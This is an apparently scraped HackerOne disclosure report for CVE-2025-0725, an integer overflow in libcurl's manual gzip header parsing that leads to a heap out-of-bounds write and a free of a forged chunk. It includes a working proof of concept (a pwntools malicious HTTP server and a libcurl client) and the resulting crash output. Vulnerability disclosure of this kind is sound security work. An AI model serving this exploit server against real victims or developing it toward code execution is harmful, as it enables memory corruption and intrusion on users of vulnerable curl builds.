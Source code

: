 # CVE-2025-0725: gzip integer overflow

## Report Details
- **Report ID**: 2956023
- **URL**: https://hackerone.com/reports/2956023
- **State**: Closed
- **Severity**: low
- **Submitted**: 2025-01-23T23:37:04.309Z
- **Disclosed**: 2025-02-05T13:11:34.355Z

## Reporter
- **Username**: z2_
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: curl

## Vulnerability Information
Hello, no AI slop this time. I promise!

The current master branch of [libcurl](https://github.com/curl/curl/tree/7e814c8717939393d4436d75f5f0c3ffa98c8c53) contains a vulnerability in [lib/content_encoding.c](https://github.com/curl/curl/blob/7e814c8717939393d4436d75f5f0c3ffa98c8c53/lib/content_encoding.c#L539) that allows a malicious HTTP-server to craft an arbitrary heap chunk in the memory of the victim and issue a `free()` of that forged chunk, when `Content-Encoding: gzip` is in use.

The vulnerability is in function `gzip_do_write()` in lines 533 - 544:
```c
    z->avail_in += (uInt) nbytes;
    z->next_in = Curl_saferealloc(z->next_in, z->avail_in);
    if(!z->next_in) {
      return exit_zlib(data, z, &zp->zlib_init, CURLE_OUT_OF_MEMORY);
    }
    /* Append the new block of data to the previous one */
    memcpy(z->next_in + z->avail_in - nbytes, buf, nbytes);

    switch(check_gzip_header(z->next_in, (ssize_t)z->avail_in, &hlen)) {
    case GZIP_OK:
      /* This is the zlib stream data */
      free(z->next_in);
```

On systems with a zlib version < `1.2.0.4`, libcurl offers to manually parse gzip headers and trailers  instead of passing everything to zlib as is. Unfortunately, when parsing the headers the remote server can trigger an integer overflow of `z->avail_in` in line 533, which leads the following `Curl_saferealloc()` call to shrink the chunk `z->next_in`. The following `memcpy()` can then write out-of-bounds before `z->next_in`, overwriting chunk metadata of the allocator. And right after the oob-write was triggered, the call to `free(z->next_in)` puts the forged chunk into the freelist of the allocator. `z->avail_in` can be overflowed because libcurl supports endlessly large gzip headers that can lead to repeated calls of `gzip_do_write()` with `zp->zlib_init == ZLIB_GZIP_HEADER` that keep incrementing `z->avail_in` with the amount of received data `nbytes`.

# PoC
Consider the following malicious HTTP-server:
```py
#!/usr/bin/env python3

from pwn import *

gzip_header = bytes([
    0x1f, 0x8b, # magic values
    8, # method
    8, # flags
    0, 0, 0, 0, 0, 0, # random bullshit go
])

with listen(1234) as conn:
    conn.wait_for_connection()
    
    # Discard HTTP request
    while True:
        line = conn.recvline()
        
        if line == b"\r\n":
            break
    
    # Fill up buffer
    conn.sendline(b"HTTP/1.1 200 OK\r")
    conn.sendline(b"Content-Encoding: gzip\r")
    conn.sendline(b"\r")
    conn.send(gzip_header)
    
    todo = 0xFFFFFFFF - 15 - len(gzip_header)
    amnt = 6000000
    
    while todo > amnt:
        conn.send(bytes([1]) * amnt)
        todo -= amnt
        
    conn.send(bytes([1]) * todo)
    
    # Trigger integer overflow
    time.sleep(5)
    conn.send(bytes(32)) # forged chunk
```

And consider the following libcurl client:
```c
#include <curl/curl.h>

int main (void) {
    CURL *curl = curl_easy_init();
    curl_easy_setopt(curl, CURLOPT_URL, "http://127.0.0.1:1234/");
    curl_easy_setopt(curl, CURLOPT_ACCEPT_ENCODING, "gzip");
    curl_easy_setopt(curl, CURLOPT_BUFFERSIZE, 10485760); // to speed up the PoC
    curl_easy_perform(curl);
}
```

When launching
```
python3 ./server.py
```
in one terminal and 
```
./client
```
in another terminal, we can observe that after \~10min. we get the following message:
```
free(): invalid pointer
[1]    233088 IOT instruction (core dumped)  ./client
```
Meaning that we were successfully able to overwrite chunk metadata.

## Impact

The vulnerability
- exists both in the library and the tool in every installation
- is easy to trigger, a victim just has to be pointed to an evil URL
- can lead to RCE when combined with information leaks that bypass ASLR
  because it offers a controlled heap out-of-bounds write exploitation primitive

Thus I suggest severity "High"

## Attachments
No attachments
